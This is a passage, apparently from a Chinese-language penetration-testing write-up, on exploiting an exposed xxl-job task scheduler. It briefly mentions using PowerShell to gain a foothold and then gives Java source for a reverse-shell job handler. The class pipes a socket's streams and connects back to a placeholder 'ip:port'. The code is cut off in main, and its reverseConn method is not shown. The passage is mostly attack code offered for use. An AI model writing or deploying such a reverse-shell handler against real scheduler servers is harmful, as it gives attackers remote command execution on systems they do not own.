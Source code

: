 却不知有时 xxl-job 也可以跑在 Windows 下。这时候就可以去执行 Powerhshell 命令去上线。当然如果比较懒的话可以直接执行 java 代码来上线。无论 Windows 和 linux 都可以反弹 shell。

```bash
package com.xxl.job.service.handler;

import java.io.BufferedReader;
import java.io.BufferedWriter;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.OutputStream;
import java.io.OutputStreamWriter;
import java.net.Socket;

public class reverse {
    class StreamConnector
    extends Thread
    {
        InputStream hx;
        OutputStream il;

        StreamConnector(InputStream hx, OutputStream il)
        {
            this.hx = hx;
            this.il = il;
        }

        public void run()
        {
            BufferedReader ar = null;
            BufferedWriter slm = null;
            try
                {
                    ar = new BufferedReader(new InputStreamReader(this.hx));
                    slm = new BufferedWriter(new OutputStreamWriter(this.il));
                    char[] buffer = new char[8192];
                    int length;
                    while ((length = ar.read(buffer, 0, buffer.length)) > 0)
                    {
                        slm.write(buffer, 0, length);
                        slm.flush();
                    }
                }
            catch (Exception localException) {}
            try
                {
                    if (ar != null) {
                        ar.close();
                    }
                    if (slm != null) {
                        slm.close();
                    }
                }
            catch (Exception localException1) {}
        }
    }
    public reverse()
    {
        reverseConn("ip:port");
    }

    public static void main(String[] args) 
    {
        System.out.println("0");
```